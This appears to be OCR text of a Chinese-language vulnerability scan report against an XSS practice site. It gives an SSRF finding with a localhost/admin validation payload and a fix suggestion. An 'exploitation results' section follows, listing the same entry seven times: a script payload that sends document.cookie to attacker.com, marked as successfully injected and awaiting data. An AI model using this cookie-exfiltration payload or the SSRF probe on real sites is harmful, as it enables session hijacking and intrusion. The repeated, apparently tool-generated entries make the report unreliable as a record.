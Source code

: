 ### SSRF 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: high
- 验证载荷: http://localhost/admin
- 修复建议: 建立URL白名单，禁止访问内网地址，禁用不必要的协议支持

#### 攻击指导

## 漏洞利用结果
### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传
